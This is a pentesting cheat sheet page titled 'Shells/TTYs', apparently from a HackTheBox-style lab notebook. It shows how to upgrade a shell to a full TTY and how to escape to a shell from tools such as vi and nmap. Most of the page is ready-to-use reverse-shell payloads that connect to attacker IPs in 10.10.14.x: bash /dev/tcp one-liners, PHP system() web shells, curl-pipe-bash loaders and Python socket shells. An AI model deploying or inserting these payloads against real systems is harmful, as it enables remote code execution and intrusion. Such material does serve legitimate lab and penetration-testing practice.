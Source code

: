```yaml
---
icon: book-skull
---
```


# Shells/TTYs

{% hint style="info" %}
## <mark style="color:purple;">`TTYs`</mark>

### <mark style="color:purple;">Ncat</mark>

* <mark style="color:purple;">You can use the</mark> <mark style="color:orange;">**`rlwrap`**</mark> <mark style="color:purple;">utility to</mark> <mark style="color:purple;">enables line editing and history.</mark>
* <mark style="color:purple;">In order to have a full</mark> <mark style="color:orange;">**`TTY`**</mark> <mark style="color:purple;">**follow this steps:**</mark>

#### <mark style="color:orange;">`BASH`</mark>:

1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. &#x20;`CTRL+Z`
3. `stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`
{% endhint %}











TTYs

```bash
#Spawn a terminal 1
python3 -c 'import pty;pty.spawn("/bin/bash")’
```

Spawning Shells

```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
python3 -c 'import pty; pty.spawn("/bin/sh")'

script -qc /bin/bash /dev/null

echo os.system('/bin/bash') 
/bin/sh -i 
perl -e 'exec "/bin/sh";' 
perl: exec "/bin/sh"; 
ruby: exec "/bin/sh" 
lua: os.execute('/bin/sh') 
exec "/bin/sh"; 
/bin/bash -i
exec "/bin/sh"                # (From within IRB) 
:!bash                        # (From within vi)
:set shell=/bin/bash:shell    # (From within vi) 
!sh                           # (From within nmap)
```





***



HTTP

```bash
With Url:
<http://10.10.14.14/$>(bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1')
```

PHP

```bash
#For index.php files
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");
?>

#To copy inside a file
echo '<?php system("curl <http://10.10.14.16:443/rev.sh> | bash"); ?>' > hola.php

```

BASH + PHP

```bash
#Create the rev shell first

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.16/443 0>&1

#Copy it in to file with at http server
echo '<?php system("curl <http://10.10.14.16:80/hey> | bash"); ?>'
```

Standard [shell.sh](http://shell.sh)

```c
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```

Python

```bash
#IPv4
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#Inside a file
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"10.10.14.18\\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);" > exploit.py
```
